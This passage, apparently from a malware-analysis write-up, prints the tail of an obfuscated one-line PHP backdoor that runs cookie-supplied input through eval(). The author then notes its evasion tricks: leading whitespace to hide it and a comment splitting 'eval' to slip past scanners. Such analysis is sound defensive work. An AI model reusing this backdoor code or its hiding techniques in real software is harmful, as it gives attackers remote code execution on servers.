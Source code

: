 ```php
$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][37].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][23].$rb22c05fb['f884b'][52],);echo @$rb22c05fb[$rb22c05fb['f884b'][88].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][63].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][15].$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][15].$rb22c05fb['f884b'][5]]($n28c);}elseif ($e76477[$rb22c05fb['f884b'][43]] == $rb22c05fb['f884b'][78]){eval/*v4c8*/($e76477[$rb22c05fb['f884b'][88]]);}exit();} ?>
```

At first glance there's a couple of things to notice:

-   The script is all in one line, with a full "page" of space at the
    beginning, likely in attempt to go unnoticed in a text editor
    without word wrap.
-   It is highly obfuscated.
-   The "global" keyword can be seen used alot of places.
-   Once again the use of the \$\_COOKIE superglobal can be observed.
-   The "eval" function is at the end, separated by a /\* \*/ comment
    block, likely in an attempt to hide from automated detection.

Next let's go ahead and add some quick linebreaks and indentation, to
make it abit more readable:
